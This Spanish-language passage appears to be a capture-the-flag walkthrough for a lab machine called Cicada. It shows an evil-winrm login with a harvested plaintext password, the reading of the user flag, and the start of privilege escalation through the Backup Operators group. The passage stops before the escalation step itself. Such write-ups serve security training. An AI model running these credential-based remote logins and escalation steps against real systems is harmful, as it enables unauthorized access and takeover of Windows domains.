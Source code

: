 Y ahora podemos ganar una consola fácilmente con `evil-winrm`

```console
$ evil-winrm -i 10.129.69.107 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
```

Podemos leer la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
0d1cad03c12036...
```

# Privilege Escalation
Rápidamente podemos ver que este usuario pertenece al grupo `Backup Operators`
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```
